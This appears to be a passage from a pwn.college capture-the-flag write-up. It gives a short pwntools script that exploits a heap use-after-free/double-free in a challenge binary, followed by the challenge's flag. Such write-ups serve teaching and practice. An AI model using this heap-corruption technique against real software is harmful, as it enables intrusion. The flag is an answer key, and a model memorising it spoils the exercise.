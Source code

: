 ```python


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free():
    target.sendlineafter(b": ", b"free")


def puts():
    target.sendlineafter(b": ", b"puts")


def scanf(data):
    target.sendlineafter(b": ", b"scanf")
    target.sendline(data)


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(708)
    free()
    scanf(b"A" * 8)
    free()
    read_flag()
    puts()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{MHf4zKVq2DfY5MtZr8YZABG0Z4S.0FO3MDL5cTNxgzW}`]

# Level 5.0
